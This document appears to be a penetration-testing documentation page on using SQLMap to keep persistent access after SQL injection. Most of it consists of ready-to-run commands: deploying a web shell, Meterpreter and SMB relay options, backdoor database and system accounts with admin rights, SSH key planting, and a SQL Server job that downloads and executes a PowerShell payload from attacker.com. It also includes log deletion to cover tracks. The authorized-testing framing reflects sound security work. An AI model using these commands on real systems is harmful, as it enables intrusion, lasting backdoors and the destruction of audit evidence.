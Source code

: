 ```yaml
---
title: Maintaining Access
description: Learn how to establish persistent access using SQLMap's advanced techniques
---
```


# Maintaining Access

SQLMap provides several methods to establish persistent access to vulnerable systems after successful SQL injection exploitation. These techniques are valuable for authorized penetration testing scenarios where maintaining access is part of the assessment scope.

## Backdoor Deployment Options

### Web Shell Deployment

SQLMap can deploy a web shell to maintain access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

This uploads a local file to the target web server directory, allowing subsequent access through the web interface.

### Metasploit Integration (`--os-pwn`)

To establish a Meterpreter session:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-pwn --msf-path=/path/to/metasploit
```

This command:
1. Generates a Metasploit payload
2. Uploads it to the target server
3. Executes it to establish a Meterpreter session
4. Connects back to your Metasploit handler

### SMB Relay Attack (`--os-smbrelay`)

For Windows targets:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-smbrelay
```

This establishes access using SMB relay techniques, which can be effective in Windows environments.

## Database-Level Persistence

### Creating Database Backdoor Users

To create a new database user with administrative privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --sql-query="CREATE USER 'backdoor'@'%' IDENTIFIED BY 'password123'; GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';"
```

This creates a new database user that can be used for future access.

### Scheduled Tasks and Jobs

For SQL Server, you can create a SQL Agent job:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --sql-query="EXEC msdb.dbo.sp_add_job @job_name='maintenance', @enabled=1; EXEC msdb.dbo.sp_add_jobstep @job_name='maintenance', @step_name='step1', @command='EXEC xp_cmdshell ''powershell -c \"IEX (New-Object Net.WebClient).DownloadString(''''http://attacker.com/payload.ps1'''')\"'''; EXEC msdb.dbo.sp_add_jobschedule @job_name='maintenance', @name='daily', @freq_type=4, @freq_interval=1, @active_start_time=010000;"
```

This creates a scheduled job that executes a command periodically.

## System-Level Persistence

### Creating System Users

On Unix-based systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="useradd -m -p $(openssl passwd -1 password123) backdoor && usermod -aG sudo backdoor"
```

On Windows systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="net user backdoor password123 /add && net localgroup administrators backdoor /add"
```

### SSH Key Deployment

To add an SSH key for persistent access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="id_rsa.pub" --file-dest="/home/user/.ssh/authorized_keys"
```

This adds your public key to the authorized_keys file, allowing SSH access without a password.

## Covering Tracks

After establishing persistence, it's important to clean up evidence:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="rm -f /var/log/auth.log"
```

## Best Practices for Authorized Testing

When maintaining access during authorized penetration tests:

1. Document all persistence mechanisms deployed
2. Use unique identifiers for all created accounts and files
3. Set up proper cleanup procedures for after the test
4. Ensure all persistence mechanisms are removed at the end of testing
5. Coordinate with the system owners about the persistence methods used

Remember that the goal of security testing is to improve security, not to compromise it. Always follow responsible disclosure practices and the agreed-upon rules of engagement.
